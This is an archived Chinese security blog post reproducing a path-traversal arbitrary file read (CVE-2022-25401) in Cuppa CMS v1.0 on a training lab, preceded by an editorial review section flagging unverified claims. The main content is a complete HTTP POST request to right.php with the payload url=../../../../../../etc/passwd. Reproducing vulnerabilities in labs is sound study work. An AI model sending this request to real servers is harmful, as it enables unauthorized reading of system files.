



## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：1.0; right.php path traversal; Unix file; sample session cookie present but login prerequisite unstated

- **适用与权限边界（1）**：Intro administrator/templates path differs from root templates URL; installation-base mapping not explained。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **证据待核（2）**：Lab host/session fixed and result only screenshot。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（3）**：Generic latest-version advice no fixed release or primary advisory; source lab link only。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  Cuppa CMS-任意文件读取CVE-2022-25401   
原创 張童學  Nick安全   2024-11-19 07:45  
  
### 0x01、漏洞环境  
```
1、春秋云镜：https://yunjing.ichunqiu.com/cve/detail/744?type=1&pay=2
```  
  
  
### 0x02、漏洞介绍  
```
1、Cuppa CMS v1.0 administrator/templates/default/html/windows/right.php
文件存在任意文件读取漏洞。
```  
### 0x03、漏洞复现  
  
1、打开网站  
```
http://eci-2ze83tbbiyemh4fxuteh.cloudeci1.ichunqiu.com
```  
  
  
```
构造post请求：POST /templates/default/html/windows/right.php
提交参数id=1&path=component/table_manager/view/cu_views&uniqueClass=window_right_246232&url=../../../../../../etc/passwd
```  
```
完整参数如下：
POST /templates/default/html/windows/right.php HTTP/1.1
Host: eci-2ze83tbbiyemh4fxuteh.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: country=us; language=en; PHPSESSID=khjcn6r6rsslajkuav6n9itaa6; administrator_path=http%3A%2F%2Feci-2ze83tbbiyemh4fxuteh.cloudeci1.ichunqiu.com%2F
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

id=1&path=component/table_manager/view/cu_views&uniqueClass=window_right_246232&url=../../../../../../etc/passwd
```  
  
  
### 0x04 修复建议  
  
1、建议您更新当前系统或软件至最新版，完成漏洞的修复。  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
